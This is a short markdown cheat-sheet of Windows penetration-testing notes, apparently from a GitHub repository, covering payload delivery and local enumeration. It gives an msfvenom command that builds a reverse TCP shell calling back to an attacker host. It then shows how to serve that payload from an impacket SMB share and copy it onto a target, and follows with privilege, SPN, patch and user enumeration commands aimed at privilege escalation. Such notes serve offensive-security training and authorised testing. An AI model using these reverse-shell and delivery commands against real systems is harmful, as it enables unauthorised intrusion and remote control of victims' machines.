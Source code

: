 ### Sysinternals is your friend
[[Sysinternals-Hub]] or [Download here](https://docs.microsoft.com/en-us/sysinternals/downloads/)

###  msfvenom shells 

Extension for AlwaysInstallElevated == msi
Extension for Dynamic-Linked-Libraries == dll //not done a reverse shell from a dll but maybe possible..

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST= $ATTACKBOX LPORT=$PORT -f exe -o reverse.exe
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py $hostdirectory
copy \\$ATTACKBOX\$hostdirectory\reverse.exe C:\Path\reverse.exe
```

 Drop NC for one liner webserver

```
while(1) { cat index.html | nc -w1 -l -p 8080 }         
```

# General Enumeration:
```powershell
whoami /priv 
setspn -T medin -Q  */*        # extract all accounts in the SPN - service principle name - service and account mapping
ver                            # get version
echo %PROCESSOR_ARCHITECTURE%  # Evasive way of bit info
tasklist /svc                  # list all services
tasklist /m                    # list all processes and dlls
systeminfo                     # list system information
hostname                       #
vssadmin                       # volume shadow copy service admin # need admin may one day be useful
wmic qfe get Caption,Description,HotFixId,InstalledOn           # Patch level!
wmic qfe list                  # LIST patch history!!!
$PSVersionTable.PSVersion


Get-ChildItem -Hidden -Path    # String in hidden files 
findstr /si string *.extension # find patterns from current directory and recursively
```
[Whoami /priv SeImpersonate Privileges](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

## User and Admin Enumeration
```powershell
whoami /priv
net user # "" insert user name if required with quotes 
get-netuser | out-gridview
get-netuser | select -expandproperty lastlogon
(Get-NetUser).name
Get-LocalUser -Name "Administrator" | Select Name,SID
# Logged in
query user /server:$SERVER
net group
```
